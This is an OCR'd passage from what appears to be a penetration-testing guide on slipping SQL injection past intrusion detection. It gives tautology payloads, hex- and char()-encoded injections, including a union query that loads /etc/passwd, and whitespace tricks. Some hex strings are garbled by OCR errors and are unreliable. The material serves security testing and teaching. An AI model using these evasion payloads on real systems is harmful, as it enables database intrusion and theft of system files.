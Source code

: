 * ' OR 5 BETWEEN 1 AND 7
* `OR 1 > 0
* `OR 'data' = 'd'

* `OR 10 between 9 and 19, and many more

You also use the hex equivalent of SQL injection statements to avoid IDS detection in the web application database. The hex equivalent of SQL injection is:
* SQL> SELECT @@version = 0x73656c65637420404076657273696£6
* SQL> DROP Table CreditCard =
0x44524£50205461626c652043726564697443617264
* SQL> INSERT into USERS ('example', ‘qwerty') =
0x494e5345525420696e746£2055534552532028274a75676779426£79272c202
77177657274792729

### Evade IDS Detection using Char Encoding
With the char() function, an attacker can encode a common injection variable present in the input string in an attempt to avoid detection in the signatures of network security measures. This char() function converts hexadecimal and decimal values into characters that can easily pass through SQL engine parsing.

You can check the IDS by using the char() function to inject SQL injection statements into MySQL 
without using double quotes.

* You can load files in unions (string = "/etc/passwd") by using Char encoding as:

  ```
  ' union select 1,
  (load_file (char (47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
  ```

* You can inject string ("root“) without quotes as:

  ```
  ' union select * from users where login = char(114,111,111,116
  ```

### Evade IDS Detection by Manipulating White Spaces
- Try to drop or add white spaces between SQL keyword and string or number literals without altering execution of SQL statements
- Using special characters like tab, carriage return, or linefeeds makes an SQL statement completely untraceable without changing the execution of the statement. "UNION SELECT” signature is different from “UNION SELECT”

White space manipulation techniques obfuscate input strings by dropping or adding White Spaces between SQL keyword and string or number literals without altering execution of SQL statements. Many modern signature-based SQL injection detection engines are capable of detecting attacks related to variations in the number and encoding of White Spaces around malicious SQL code. These detection engines fail in detecting the same types of text without spaces.

As penetration testers, you must perform this technique on the web application databases to check the functionality of the IDS.

Add White Spaces using special characters like tab, carriage return, or linefeeds renders an SQL statement completely untraceable without changing the execution of the statement.
